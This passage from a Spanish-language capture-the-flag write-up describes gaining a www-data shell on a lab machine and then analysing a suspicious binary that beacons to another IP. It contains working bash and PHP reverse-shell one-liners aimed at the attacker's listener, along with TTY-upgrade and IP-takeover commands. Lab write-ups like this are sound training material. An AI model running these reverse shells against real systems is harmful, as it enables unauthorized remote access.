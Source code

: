 envio la tipica revershell `/bin/bash -i >& /dev/tcp/172.17.0.200/4444 0>&1` url-encodeada y al poco rato me saca del sistema, asi que enviare una `revershell PHP`


![Screenshot From 2024-11-12 00-03-14](https://github.com/user-attachments/assets/00d06848-a8cd-464e-bcbe-0f537e279689)

ahora si se mantiene la conexion; revershell enviada = `php -r '$sock=fsockopen("172.17.0.200",4444);exec("/bin/bash <&3 >&3 2>&3");'` url-encodeada

# Escalada de privilegios

### www-data

tratamiento de la terminal

```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
```
existen 2 usuarios en el sistema; `darks` & `cristal` pero `dark` tiene una `-rbash` asi que no nos sive de mucho buscar llegar a el, buscando en el sistema
no consegui nada de ningun usuario que me permitiera la escalada, pero si consegui un ejecutable propiedad de `www-data`

![Screenshot From 2024-11-12 00-16-20](https://github.com/user-attachments/assets/807bfd63-0f03-43fc-9840-d35137d7b27d)

ejecuto el binario pero no pasa nada aparentemente, asi que levanto un server con python y descargo el binario en mi maquina para analizarlo


![image](https://github.com/user-attachments/assets/58a03d2b-6425-4593-8dcd-05751db17bf5)


ya por aqui puedo ver cositas, una direccion `ip= 172.17.0.188` un mensaje de error `Error al enviar datos` asi que parece que el binario envia informacion a la
ip `172.17.0.188` y por otro lado me parece que tiene una cadena codificada en `base64` o `base32`, pero despues de intentar decodificar, resulta ser ilegible, asi
que me quedo con la `ip` y el mensaje de error para ejecutar el binario y analizar la red


![image](https://github.com/user-attachments/assets/988fd292-4699-45a8-96b6-40fe417c1861)


por lo que observo, al ejecutar el binario y chequear el trafico de red se puede ver como se realiza una solicitud `arp` preguntando por la ip `172.17.0.188`
esto con el fin de poder comunicarse con ella a nivel del enlace de datos, asi que cambiare mi ip por la ip `172.17.0.188`


```ruby
ip addres del 172.17.0.200/16 dev docker0 
```
```ruby
ip addres add 172.17.0.188/16 dev docker0
```
despues de cambiar de `ip` e intentar ejecutar el binario y observar el trafico, por alguna razon no puedo ver nada, como si no existiera trafico de red y la conexion
con el server se cayo, asi que vuelvo a conectarme al server y esta vez desde el mismo server ejecuto el binario y desde mi maquina (ya teniendo la ip `172.17.0.188`)
observo el trafico de la red con `tcpdump`
